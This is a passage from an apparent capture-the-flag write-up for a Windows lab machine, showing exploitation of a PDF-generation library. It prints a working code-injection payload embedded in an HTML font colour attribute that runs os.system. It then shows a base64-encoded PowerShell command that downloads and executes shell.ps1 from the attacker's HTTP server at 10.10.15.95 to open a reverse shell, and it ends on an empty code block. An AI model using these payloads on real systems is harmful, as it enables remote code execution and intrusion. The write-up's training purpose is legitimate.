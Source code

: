 ![](/assets/images/Solarlab/Pasted%20image%2020240921112501.png)

But I don't want to generate it with xhtml2pdf, I want to generate it in the victim server so I will just create the mallicious.html file to see how the contents are:

```bash
❯ cat >mallicious.html <<EOF
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
EOF
❯ cat mallicious.html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

It seems like it executes `touch /tmp/exploited` but I don't want to do that, I want to gain access to the system, so I will change it to receive a powershell reverse shell as its a windows machine by interpreting a shell.ps1 hosted in a mine-created http server. I will base64-encode the utf-16 encoded command to avoid special characters problems:

```bash
❯ echo 'IEX(New-Object Net.WebClient).downloadString("http://10.10.15.95/shell.ps1")' | iconv -t utf16le | base64 -w 0;echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANQAuADkANQAvAHMAaABlAGwAbAAuAHAAcwAxACIAKQAKAA==
```

And the html results like this:

```html
```
